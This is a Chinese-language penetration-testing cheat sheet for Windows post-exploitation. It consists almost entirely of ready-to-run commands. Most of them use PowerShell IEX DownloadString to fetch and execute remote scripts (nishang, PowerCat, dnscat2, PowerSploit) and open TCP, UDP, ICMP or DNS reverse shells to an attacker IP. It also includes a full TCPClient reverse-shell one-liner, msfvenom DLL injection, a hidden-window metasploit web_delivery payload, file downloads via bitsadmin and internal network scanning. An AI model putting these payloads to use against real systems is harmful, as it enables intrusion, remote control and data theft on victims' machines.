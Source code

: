 <!-- TOC -->

- [下载文件](#下载文件)
- [开启Web](#开启web)
    - [python](#python)
- [远程连接](#远程连接)
- [Powershell](#powershell)
- [反弹Shell](#反弹shell)
    - [Powershell](#powershell-1)
        - [PowerCat](#powercat)
        - [nishang反弹shell](#nishang反弹shell)
        - [Reverse TCP shell](#reverse-tcp-shell)
        - [Reverse UDP shell](#reverse-udp-shell)
        - [Reverse ICMP shell](#reverse-icmp-shell)
        - [自定义powershell函数反弹shell](#自定义powershell函数反弹shell)
        - [dnscat2 反弹DNS shell](#dnscat2-反弹dns-shell)
        - [PowerSploit DLL注入反弹shell](#powersploit-dll注入反弹shell)
        - [metasploit反弹shell](#metasploit反弹shell)
- [内网扫描](#内网扫描)
    - [Powershell](#powershell-2)

<!-- /TOC -->
# 下载文件


bitsadmin /transfer myDownLoadJob /download /priority normal "https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1" "F:\test.ps1"

powershell "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1','test.ps1')"

# 开启Web
## python
```
python -m SimpleHTTPServer 80
```
powershell "IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.52.134/11.py','test.py')"

# 远程连接
```
Invoke-PowerShellWmi -ComputerName domainpc -UserName aaa\domainuser
psexec
wmic
wmicexec

```
# Powershell

# 反弹Shell
## Powershell
```
PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File d:\Invoke-PowerShellUdp.ps1

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
### PowerCat
```
开启监听：
nc -lvp 6666
或者使用powercat监听
powercat -l -p 6666

目标机反弹cmd shell： 
powershell IEX (New-Object System.Net.Webclient).DownloadString ('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.159.134 -p 6666 -e cmd

```
### nishang反弹shell 
### Reverse TCP shell 
```
开启监听：
nc -lvp 6666

目标机执行：

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

###  Reverse UDP shell 
```
开启监听：
nc -lvup 53

目标机执行： 
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1'); Invoke-PowerShellUdp -Reverse -IPAddress 192.168.159.134 -port 53
```

###  Reverse ICMP shell 
```
需要利用icmpsh_m.py (https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1 来反弹ICMP shell。 
首先攻击端下载icmpsh_m.py文件

icmpsh_m.py Usage： python icmpsh_m.py [Attacker IP] [Victim IP]
攻击者(192.168.159.134)执行： 
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包 python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听

目标机(192.168.159.138)执行： 
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```

###  自定义powershell函数反弹shell 
```
利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell，其实也是借鉴nishang中的Invoke-PowerShellTcpOneLine.ps1

攻击者(192.168.159.134) 开启监听：
nc -lvp 6666

目标机执行： 
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.52.134',6666);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### dnscat2 反弹DNS shell 
```
开启监听：
ruby dnscat2.rb --dns "domain=lltest.com,host=192.168.52.134" --no-cache -e open
-e open 不使用加密连接，默认使用加密

目标机执行：
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer 192.168.52.134
```
### PowerSploit DLL注入反弹shell 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll
use exploit/multi/handler set PAYLOAD windows/x64/meterpreter/reverse_tcp set LHOST 192.168.159.134 set LPORT 6667 exploit
Get-Process #选择要注入的进程 
powershell IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1") Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll

```
###  metasploit反弹shell 
```
use exploit/multi/script/web_delivery set PAYLOAD windows/meterpreter/reverse_tcp set target 2 set LHOST 192.168.159.134 set LPORT 6666
exploit
目标机执行：
powershell.exe -nop -w hidden -c $f=new-object net.webclient;$f.proxy=[Net.WebRequest]::GetSystemWebProxy(); $f.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $f.downloadstring('http://192.168.159.134:8080/4iNSwaMtwWjm');
```

# 内网扫描
## Powershell
```
a) 调用invoke-Portscan扫描内网主机的端口。

b) 调用Get-HttpStatus扫描目标站点的目录。

c) 调用Invoke-ReverseDnsLookup扫描内网主机的ip对应的主机名。
Invoke-ReverseDnsLookup '192.168.3.20-192.168.3.24'
```